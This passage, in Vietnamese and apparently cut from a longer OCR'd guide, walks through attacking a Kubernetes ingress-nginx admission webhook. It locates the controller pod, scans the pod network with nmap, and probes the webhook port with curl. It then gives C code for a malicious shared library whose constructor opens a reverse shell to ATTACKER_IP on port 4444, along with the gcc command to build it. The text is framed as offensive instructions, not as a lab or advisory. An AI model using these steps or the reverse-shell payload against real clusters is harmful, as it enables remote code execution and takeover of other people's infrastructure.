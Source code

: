         ```plaintext
        NAMESPACE     NAME                                      READY   STATUS    IP           NODE
        ingress-nginx ingress-nginx-controller-abc123   1/1     Running   10.244.0.5   node1
        ```
        
    * Ghi lại địa chỉ IP (ví dụ: `10.244.0.5`).
        
* **Nếu không có kubectl**:
    
    * Dùng công cụ quét mạng như `nmap` từ Pod của bạn:
        
        ```plaintext
        nmap -p 1-65535 10.244.0.0/24
        ```
        
        Tìm các Pod mở cổng 443 hoặc 8443 (cổng mặc định của webhook ingress-nginx).
        

#### **Bước 2: Kiểm tra kết nối đến ingress-nginx**

* **Mục tiêu**: Xác nhận rằng bạn có thể giao tiếp với Pod ingress-nginx qua Pod network.
    
* **Hành động**:
    
    * Dùng `curl` để kiểm tra:
        
        ```plaintext
        curl https://10.244.0.5:8443 --insecure
        ```
        
    * Nếu nhận được phản hồi (dù là lỗi), điều đó có nghĩa là bạn có thể truy cập webhook. Nếu bị chặn, kiểm tra lại mạng hoặc thử cổng khác (443, 8443).
        

#### **Bước 3: Chuẩn bị mã độc (**[**malicious.so**](http://malicious.so)**)**

* **Mục tiêu**: Tạo một thư viện động để thực thi mã độc khi được tải bởi nginx.
    
* **Hành động**:
    
    * Trên máy cục bộ của bạn (không phải trong cụm), viết một đoạn mã C đơn giản để tạo reverse shell:
        
        ```c
        #include <stdlib.h>
        #include <unistd.h>
        void init() __attribute__((constructor));
        void init() {
            system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'");
        }
        ```
        
        * Thay `ATTACKER_IP` bằng địa chỉ IP của máy tấn công (ví dụ: `192.168.1.100`).
            
    * Biên dịch thành thư viện chia sẻ:
        
        ```plaintext
        gcc -shared -fPIC -o malicious.so malicious.c
        ```
        